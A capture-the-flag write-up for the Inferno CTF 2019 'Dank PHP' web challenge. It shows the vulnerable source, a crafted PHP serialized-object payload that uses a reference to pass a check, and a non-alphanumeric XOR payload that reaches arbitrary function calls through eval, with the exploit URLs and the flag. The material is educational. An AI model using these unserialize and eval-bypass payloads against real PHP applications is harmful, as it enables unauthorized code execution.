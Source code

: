 # Inferno CTF 2019 – Dank PHP

* **Category:** web
* **Points:** 375

## Challenge

> I love Dank Memes+PHP
> 
> Link: http://104.197.168.32:17010/
> 
> Author : MrT4ntr4

## Solution

The website will show its own source code.

```php
<?php
include "flag.php";

show_source(__FILE__);

class user {
  var $name;
  var $pass;
  var $secret;
}

if (isset($_GET['id'])) {

  $id = $_GET['id'];

  $usr = unserialize($id);
  if ($usr) {
    $usr->secret = $flag1;
    if ($usr->name === "admin" && $usr->pass === $usr->secret) {
      echo "Congratulation! Here is something for you...  " . $usr->pass;
      if (isset($_GET['caption'])) {
        $cap = $_GET['caption'];
        if (strlen($cap) > 45) {
          die("Naaaah, Take rest now");
        }
        if (preg_match("/[A-Za-z0-9]+/", $cap)) {
          die("Don't mess with the best language!!");
        }
        eval($cap);
        // Try to execute echoFlag()
      } else {
        echo "NVM You are not eligible";
      }
    } else {
      echo "Oh no... You can't fool me";
    }

  } else {
    echo "are you trolling?";
  }

} else {
  echo "Go and watch some Youthoob Tutorials Kidosss!!";
}
```

You have to bypass some checks in order to get the flag. The first part of the flag, i.e. `$flag1`, is printed after the first check, the second part of the flag can be obtained executing `echoFlag()` method when the `eval($cap)` instruction is reached.

First of all you have to replicate a serialized input to pass via `id` HTTP GET parameter. This could be done with the following code.

```php
<?php
class user {
  var $name;
  var $pass;
  var $secret;
}

$usr = new user();
$usr->name = "name";
$usr->pass = "pass";
$usr->secret = "secret";

$id = serialize($usr);
echo $id;
```

The result is the following payload.

```
O:4:"user":3:{s:4:"name";s:5:"admin";s:4:"pass";s:4:"pass";s:6:"secret";s:6:"secret";}
```

The first check to bypass is the following.

```php
    $usr->secret = $flag1;
    if ($usr->name === "admin" && $usr->pass === $usr->secret) {
```

This can be achieved referencing `$usr->secret` field from the `$usr->pass` field, so when the assign operation with `$flag1` will be performed, both fields will be equals.

In PHP serialization, this can be done with the `R` clause, pointing to the index of the referenced object. The crafted payload is the following.

```
O:4:"user":3:{s:4:"name";s:5:"admin";s:6:"secret";s:6:"secret";s:4:"pass";R:3;}
```

The complete URL is the following.

```
http://104.197.168.32:17010/?id=O:4:%22user%22:3:{s:4:%22name%22;s:5:%22admin%22;s:6:%22secret%22;s:6:%22secret%22;s:4:%22pass%22;R:3;}
```

The answer will be the following.

```
Congratulation! Here is something for you...
infernoCTF{pHp_1s_
NVM You are not eligible
```

The second check to bypass is the following.

```php
      if (isset($_GET['caption'])) {
        $cap = $_GET['caption'];
        if (strlen($cap) > 45) {
          die("Naaaah, Take rest now");
        }
        if (preg_match("/[A-Za-z0-9]+/", $cap)) {
          die("Don't mess with the best language!!");
        }
        eval($cap);
        // Try to execute echoFlag()
```

This is quite hard, because there are two strong constraints.

Usually, `preg_match` [can be bypassed using arrays data type](https://bugs.php.net/bug.php?id=69274), but in this case I was not able to use the content of the array into the `eval` instruction.

Googling around, I learned about a technique to bypass WAF using non-alfanumeric input, performing logic operations on non-alfanumeric chars using non-alfanumeric variables.

Considering the check on the length, and the overhead of this kind of payloads, probably the best way to attack the endpoint is to read another HTTP GET parameter, with non-alfanumeric name, e.g. `_`.

I found two interesting websites:
* [Bypass WAF - Php webshell without numbers and letters](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/);
* [`preg_match` Code Execution](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#preg_match-code-execution).

In the second website, there is the same scenario of the challenge, so I used it to craft my payload.

Using bitwise XOR operation in PHP, you can craft `_GET` string using non-alfanumeric chars and assign this value to a variable with a non-alfanumeric char.

```php
$_="`{{{"^"?<>/"; // This is: "_GET" string.
```

Then you can specify the execution of the content of a GET parameter with the following code.

```php
${$_}[_]();       // This is $_GET[_]()
```

So the complete payload that will be executed by the `eval` instruction will be the following.

```php
$_="`{{{"^"?<>/";${$_}[_]();
```

Putting everything together, you can craft the final URL to invoke. The last thing to do is to specify the HTTP GET parameter called `_` where the name of the function to call will be specified.

```
http://104.197.168.32:17010/?id=O:4:%22user%22:3:{s:4:%22name%22;s:5:%22admin%22;s:6:%22secret%22;s:6:%22secret%22;s:4:%22pass%22;R:3;}&caption=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_]();&_=echoFlag
```

The web page will give the following answer.

```
Congratulation! Here is something for you...
infernoCTF{pHp_1s_
a_h34dache}
```

So the flag is the following.

```
infernoCTF{pHp_1s_a_h34dache}
```